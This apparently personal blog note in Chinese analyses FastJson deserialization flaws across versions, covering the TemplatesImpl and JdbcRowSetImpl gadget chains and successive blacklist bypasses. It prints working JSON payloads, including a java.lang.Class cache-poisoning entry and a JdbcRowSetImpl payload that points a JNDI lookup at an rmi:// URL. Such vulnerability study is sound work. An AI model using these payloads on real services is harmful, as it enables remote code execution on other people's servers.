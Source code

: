 ```yaml
---
title: FastJson系列反序列化漏洞分析
date: 2022-2-23
tags:
 - Vulnerabilities
 - 笔记
categories:
 - Vulnerabilities
---
```


### 原理

* FastJson序列化对象为字符串使用toJSONString方法，反序列化还原对象使用：parseObject(String text)、parse(String text)、parseObject(String text, Class clazz)。其中，parseObject返回JSONObject，而parse返回的是实际类型的对象。当在没有对应类定义的情况下，会使用JSON.parseObject来获取数据。

* 而在反序列化的过程里，会自动调用反序列化对象中的getter、setter方法以及构造函数，这就是FastJson反序列化漏洞产生的原因。
* 反序列化的过程分成2步，首先是loadClass，在这个过程中会经过黑白名单检查，看这个类是否可以被反序列化。然后再进行deserialize。这个过程会不断的parse，去调用get or set方法，这个过程就可能出现恶意执行

### FastJson-1.2.22

两条调用链：

* JdbcRowSetImpl利用链
* TemplatesImpl利用链

这里主要说templateImpl，后文会提到jdbcRowSetImpl

恶意payload：

![image-20220414172531755](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220421222748.png)

type是要被反序列的类的类型。这个payload关键有两点，一个是bytecodes，另一个是outputProperties。

bytecodes就是包含恶意代码的恶意类，然后对他进行base64编码，生成字节码数组得到的。

![image-20220414172859344](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220422103753.png)

因为恶意代码已经被插入到了Template类前面，那么在对这个类进行实例化的时候，就会先执行恶意代码段，也就导致了漏洞。

具体执行的过程就是deserialize的过程，会不断的parse，一直到调用ouputProperties的get方法

![image-20220414190617752](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220422103813.png)

这个过程会调用defineTransletClasses()，里面会把bytecodes给class，相当于class就是bytecodes，然后newInstance。此时也就触发了前面插入的恶意代码段

### fastJson1.2.25-1.2.41，加黑名单，利用L绕过

### fastJson1.2.42 去除L判断黑名单，利用LL继续绕过

### fastJson1.2.44 L黑名单直接关闭

### fastJson 1.2.47 用Class控制缓存

因为在判断黑名单部分的逻辑是：首先看该类是否在缓存中，如果在，直接取。如果不在，那么进行黑名单判断。这也就存在漏洞，如果预先把类加到了缓存中，接下来判断的时候，就可以直接从缓存中取，不会进行黑名单判断。

因此，这里借助class，将jdbcRowSet加到缓存中，来绕过。

payload由两部分组成，首先是：

```json
{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}
```

这里会将com.sun.rowset.JdbcRowSetImpl加到缓存

第二部分就和之前一样：

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit","autoCommit":true}
```

在反序列化的时候，会调用setDataSourceName和setAutoCommit，在调用setAutoCommit的时候会调用connect方法，connect方法中会调用lookup

![image-20220414174333822](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220422103825.png)

![image-20220414174341103](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220422103844.png)

![image-20220414174350048](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220422103855.png)

### fastJson1.2.48 在loadClass时，将缓存开关设置为false，Class加入黑名单